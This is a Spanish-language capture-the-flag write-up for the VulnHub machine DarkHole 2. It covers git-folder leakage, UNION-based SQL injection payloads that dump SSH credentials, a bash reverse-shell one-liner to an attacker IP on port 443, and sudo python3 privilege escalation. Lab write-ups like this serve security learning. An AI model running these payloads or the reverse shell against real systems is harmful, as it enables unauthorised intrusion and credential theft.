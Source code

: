 #ctf-machine #vulnhub #easy-machine #linux  [Vulnhub Link](https://www.vulnhub.com/entry/darkhole-2,740/)

## Enumeración inicial
Como no sabemos la dirección IPv4 de la máquina objetivo, primeramente realizamos un escaneo ARP con `arp-scan`:
![[Pasted image 20240825154225.png]]

Como el OUI de la MAC es "00:0c" podemos decir que la IPv4 de la máquina víctima es la "192.168.159.142", ya que las máquinas importadas en VMWare contienen el valor de OUI.

Si lanzamos una traza ICMP podemos decir que seguramente se trate de una máquina Linux dado su TTL=64, ya que por norma general las máquinas Linux suelen tener ese valor.
![[Pasted image 20240825154344.png]]


### Nmap
Si hacemos un primer escaneo con `nmap` para detectar los puertos TCP abiertos de la máquina podemos ver que hay 2 puertos abiertos, el 22 y el 80.
![[Pasted image 20240825154557.png]]

Si hacemos un segundo escaneo con `nmap` para detectar la versión y servicio que corren para estos dos puertos abiertos, podemos ver lo siguiente:
![[Pasted image 20240825154801.png]]

Como vemos se trata de un Ubuntu que en el puerto 22 corre el servicio "OpenSSH 8.2p1" y por el puerto 80 el servicio "Apache httpd 2.4.41". Además, vemos que `nmap` nos ha reportado que el servicio web contiene un repositorio "Git" la cual cosa es bastante crítico.

Hacemos un último escaneo con `nmap` para buscar directorios de la web con el script "http-enum":
![[Pasted image 20240825155133.png]]

Vemos que de momento hay estos directorios además de que tenemos capacidad de *directory listing*.


## Enumeración web
Como anteriormente hemos visto que hay accesible una carpeta ".git", utilizamos el repositorio "GitTools" para extraer si es posible, el proyecto que corre con "Apache2" y enumerar información crítica.

Primeramente, utilizamos la herramienta `gitdumper` para extraer el contenido de la carpeta ".git":
![[Pasted image 20240825160411.png]]

Seguidamente, utilizamos el `gitextractor` para obtener el proyecto con sus repectivos *commits*:
![[Pasted image 20240825160535.png]]

Una vez extraído podemos ver que se trata de 3 commits:
![[Pasted image 20240825160624.png]]

Si enumeramos los diferentes commits del proyecto podemos ver lo siguiente:
![[Pasted image 20240825160839.png]]

Por lo que si accedemos al archivo `login.php` podemos obtener unas credenciales:
![[Pasted image 20240825160944.png]]

Además, si accedemos a `config.php` podemos ver las credenciales de acceso a la base de datos:
![[Pasted image 20240825161029.png]]

Si accedemos a la página web, podemos ver lo siguiente:
![[Pasted image 20240825161254.png]]

Por lo que si accedemos a `login.php`:
![[Pasted image 20240825161323.png]]

Y seguidamente intentamos loguearnos con las credenciales obtenidas, obtenemos acceso:
![[Pasted image 20240825161407.png]]

## SQL Injection
Si nos fijamos en la URL hay un parámetro "id" por lo que si probamos un SQL *Injection* funciona:
![[Pasted image 20240825170309.png]]

Por lo que primeramente buscamos el número de columnas de esta query con:
```
1' order by X-- -   
```

Donde X son valores altos que vamos reduciendo hasta encontrar el valor que muestra contenido que en este caso ha sido 6. Seguidamente, formulamos queries para detectar los campos de texto utilizando un valor id inválido como el 0 y la instrucción "union select" seguida de 6 NULL's:
```
0' union select NULL,NULL,NULL,NULL,NULL,NULL-- -
```

Y vamos cambiando los valores de "NULL" de uno en uno por caracteres hasta ver los valores en la respuesta. En este caso el segundo campo es de texto y muestra contenido en la respuesta:
```
0' union select NULL,'a',NULL,NULL,NULL,NULL-- -
```
![[Pasted image 20240825171845.png]]

Por lo que ya podemos ver por ejemplo el nombre de la base de datos:
```
0' union select NULL,database(),NULL,NULL,NULL,NULL-- -
```
![[Pasted image 20240825171939.png]]

Y listar todas las bases de datos disponibles:
```
0' union select NULL,group_concat(schema_name),NULL,NULL,NULL,NULL from information_schema.schemata-- -
```
![[Pasted image 20240825172213.png]]

En este caso solo hay una interesante, la base de datos "darkhole_2". Por lo que podemos listar sus tablas con:
```
0' union select NULL,group_concat(table_name),NULL,NULL,NULL,NULL from information_schema.tables where table_schema = 'darkhole_2'-- -
```
![[Pasted image 20240825172336.png]]

Seguidamente, mostramos las columnas de la tabla "ssh" con:
```
0' union select NULL,group_concat(column_name),NULL,NULL,NULL,NULL from information_schema.columns where table_schema = 'darkhole_2' and table_name='ssh'-- -
```
![[Pasted image 20240825172455.png]]

Como se puede ver hay 2 columnas interesantes: "user" y "pass" por lo que extraemos la data de estas dos columnas con:
```
0' union select NULL,group_concat(user),group_concat(pass),NULL,NULL,NULL from ssh-- -
```
![[Pasted image 20240825172702.png]]

Como podemos ver hay un usuario "jehad" con su contraseña "fool". 

Por lo que ya nos podemos conectar a la máquina mediante SSH en caso de que sean válidas las credenciales:
![[Pasted image 20240825172838.png]]

Como vemos estamos dentro de la máquina víctima.

## Escalada de privilegios
Si accedemos al "home" del usuario "jehad" y mostramos el contenido del archivo `.bash_history` podemos ver algunos comando algo extraños:
![[Pasted image 20240825175331.png]]

Si listamos los puertos internos abiertos de la máquina podemos ver que efectivamente el puerto 9999 esta abierto:
![[Pasted image 20240825175414.png]]

Por lo que podemos probar de hacer un curl desde la máquina objetivo ya que es un puerto interno.
![[Pasted image 20240825175511.png]]

Como podemos ver, nos pide un parámetro "cmd", por lo que podemos probar de ejecutar el comando "whoami" para identificar el usuario que está ejecutando este servicio:
![[Pasted image 20240825175644.png]]

Como podemos ver lo está ejecutando el usuario "losy" por lo que podemos intentar ejecutar un comando que nos mande una *reverse shell* por el puerto 443:
```bash
bash -c "bash -i >& /dev/tcp/192.168.159.131/443 0>&1"
```
![[Pasted image 20240825180010.png]]
![[Pasted image 20240825180026.png]]

Por lo que hacemos el tratamiento de la TTY:
![[Pasted image 20240825180122.png]]
![[Pasted image 20240825180157.png]]

Si accedemos a `/home/losy` podemos visualizar la primera *flag*:
![[Pasted image 20240825180303.png]]

Si accedemos al contenido de `/home/losy/.bash_history` podemos ver una supuesta contraseña:
![[Pasted image 20240825180625.png]]

Si la probamos con el comando su para ver si es correcta, podemos ver que si:
![[Pasted image 20240825180740.png]]

Por lo que si listamos los permisos a nivel de *suoders* como se hace en el `/home/losy/.bash_history` vemos que tenemos permisos de ejecutar python3 como "root":
![[Pasted image 20240825180929.png]]

Por lo que podemos utilizar el mismo este *oneliner* para obtener acceso a la máquina como root:
![[Pasted image 20240825181051.png]]

Y si finalmente accedemos a `/root` podemos visualizar la última *flag*:
![[Pasted image 20240825181132.png]]

___
#information-leakage  #sqli #abusing-sudoers #git 
___